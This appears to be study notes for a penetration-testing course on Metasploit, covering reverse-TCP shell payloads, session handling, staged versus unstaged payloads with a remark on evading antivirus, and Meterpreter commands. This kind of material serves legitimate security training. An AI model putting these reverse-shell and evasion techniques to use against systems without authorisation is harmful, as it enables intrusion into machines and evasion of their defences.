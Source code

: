 need to set our payload before running exploit
```
set payload payload/linux/x64/shell_reverse_tcp
show options
```

can background a shell with ctrl-Z 
interact with a session
```
sessions -i 1
```

to run an exploit in a background session
```
run -j
```

## Metasploit Payloads
### Staged vs Unstaged

show and set payloads
```
show payloads
set payload 15
run
```

unstaged -- all-in-one. exploit and shell code sent together
staged -- first exploit, then send shell

There are several situations in which we would prefer to use a staged payload instead of non-staged. If there are space-limitations in an exploit, a staged payload might be a better choice as it is typically smaller. In addition, we need to keep in mind that antivirus software can detect shellcode in an exploit. By replacing the full code with a first stage, which loads the second and malicious part of the shellcode, the remaining payload is retrieved and injected directly into the victim machine's memory. This may prevent detection and can increase our chances of success.

### Meterpreter payload
meterpreter commands
```
sysinfo
getuid
```

inside of sessions, we can run a new shell
```
shell
```

this opens a new channel, which we can attach /detach
```
channel -l
channel -i 1
```

commands with l prefix act on our local machine, for ex lpwd

